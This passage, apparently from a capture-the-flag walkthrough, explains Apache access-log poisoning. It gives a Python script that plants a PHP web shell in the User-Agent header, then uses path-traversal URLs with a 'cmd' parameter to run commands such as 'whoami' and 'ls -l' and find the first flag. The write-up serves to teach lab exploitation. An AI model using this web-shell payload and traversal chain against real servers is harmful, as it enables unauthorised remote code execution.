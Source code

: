 It’s syntax is like this:

**{ACCESSING_IP} - - [TIME] “{REQUEST}” {RESPONSE_CODE} {I_DUNNO} “{URL}” “{USER_AGENT}”**

The part we can modify to display php code, is the User Agent.

You can either do this with a python script or with Burp-Suite.<br/>Here is the python script:

```python
import requests

url = 'http://$IP/?view=cat'

headers = {
    'User-Agent': '<?php system($_GET['cmd']); ?>',
}

response = requests.get(url, headers=headers)

print(response.text)
```

But I did it with Burp as well.

If you want a more detailed description just google how to edit a User Agent with Burp-Suite.

{% asset_img burp.png %}

We now have remote code execution, by passing a linux command to the “cmd” paramter in the URL. We can see the results of that command if we open up the log file again. So if we try to run “whoami” like this:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

We can see this result in the logs (To find it more quickly the next time, copy the time stamp where the result of the whoami command showed up and search for it the next time. Then you will jump to the correct line automatically):

{% asset_img logpoisining.png %}

As expected we are “www-data”.

## Post Exploitation

### Flag 1

To get an overview of what we are working with let’s also run “ls -l”.

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls%20-l
```

{% asset_img flag1.png %}

Oh hey, there we have our first flag! We can see the content of the file like this:
